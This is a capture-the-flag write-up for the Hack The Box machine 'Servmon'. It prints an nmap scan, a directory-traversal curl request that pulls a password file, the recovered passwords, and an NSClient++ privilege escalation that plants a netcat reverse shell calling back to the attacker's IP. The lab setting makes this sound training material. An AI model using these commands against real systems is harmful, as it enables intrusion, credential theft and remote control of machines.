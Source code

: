 ```yaml
---
title: "[HTB] Servmon WriteUp"
date: 2020-06-15T15:34:30-04:00
categories:
  - Hack The Box
excerpt: "Lets start by running nmap. FTP is running and allows anonymous login."
header:
  teaser: "/assets/servmon/servmon.jpg"
tags:
  - HTB
  - Hack The Box
  - WriteUp
---
```


![]({{ site.url }}{{ site.baseurl }}/assets/servmon/servmon.jpg)

* OS: Windows
* Difficulty: Easy
* Points: 20
* Release: 11 Apr 2020
* IP: 10.10.10.184

Lets start by running nmap

```bash
nmap -sC -sV -oN nmap/nmap 10.10.10.184
```

Output:
```bash
# Nmap 7.80 scan initiated Tue May  5 19:41:18 2020 as: nmap -sV -sC -oN nmap/nmap 10.10.10.184
Nmap scan report for 10.10.10.184
Host is up (0.024s latency).
Not shown: 991 closed ports
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_01-18-20  12:05PM       <DIR>          Users
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 b9:89:04:ae:b6:26:07:3f:61:89:75:cf:10:29:28:83 (RSA)
|   256 71:4e:6c:c0:d3:6e:57:4f:06:b8:95:3d:c7:75:57:53 (ECDSA)
|_  256 15:38:bd:75:06:71:67:7a:01:17:9c:5c:ed:4c:de:0e (ED25519)
80/tcp   open  http
| fingerprint-strings: 
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo: 
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     <script type="text/javascript">
|     window.location.href = "Pages/login.htm";
|     </script>
|     </head>
|     <body>
|     </body>
|     </html>
|   NULL: 
|     HTTP/1.1 408 Request Timeout
|     Content-type: text/html
|     Content-Length: 0
|     Connection: close
|_    AuthInfo:
|_http-title: Site doesnt have a title (text/html).
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5666/tcp open  tcpwrapped
6699/tcp open  tcpwrapped
8443/tcp open  ssl/https-alt
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|_    Location: /index.html
| http-title: NSClient++
|_Requested resource was /index.html
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2020-01-14T13:24:20
|_Not valid after:  2021-01-13T13:24:20
|_ssl-date: TLS randomness does not represent time
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
...
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 4m16s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-05-05T18:47:18
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue May  5 19:43:07 2020 -- 1 IP address (1 host up) scanned in 108.77 seconds
```

FTP is running and allows anonymous login.
There are two users listed on the FTP server, Nadine and Nathan. We also find tome text files, "Notes to do".txt and Confidential.txt

Confidential.txt reads 
```
Nathan,

I left your Passwords.txt file on your Desktop.
Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine
```

The webserver is running NVMS-1000, searching for exploits we find [CVE:2019-20085](https://www.exploit-db.com/exploits/48311) which is a directory traversal. We can use this to find the passwords.txt that the note told us about.

```bash
curl --path-as-is -G http://10.10.10.184/../../../../../../../../Users/Nathan/Desktop/passwords.txt
```

This gives us a list of passwords 

```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

We can try SSH with these passwords against both known users. The password L1k3B1gBut7s@W0rk works with Nadine.

We log in as Nadine and find User.txt on the Desktop.


### PrivEsc

This part took me a long time to do, mostly due to the GUI interface. I eventually done it using the [web API](https://docs.nsclient.org/api/).

Port 8443 is running NSClient++.

We can find the password for NSClient++ by going to C:\Program Files\NSClient++ and using the following command

```bash
nscp web --password --display
Current password: ew2x6SsGTxjRwXOT
```

We can try logging in using this password but it will only allow connections from localhost. SSH has port forwarding built in so log in as Nadine with port forwarding enabled.

```bash
ssh -L 8443:127.0.0.1:8443 Nadine@10.10.10.184
```

Now we can use the web API to add a malicious script and execute it to gain root privileges.

First we need to upload nc.exe to C:/Temp. Then use the following command to add our script.

```bash
curl -s -k -u admin -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/evil.bat --data-binary "C:\Temp\nc.exe 10.10.14.33 9001 -e cmd.exe"
```

When run this will call back to our IP address. Set up a listener on the attacking machine.

```bash
nc -lvnp 9001
```

Then run the script

```bash
curl -s -k -u admin https://localhost:8443/api/v1/queries/evil/commands/execute?time=1m
```

This should connect back and give us root!

Root.txt is in C:\Users\Administrator\Desktop\root.txt
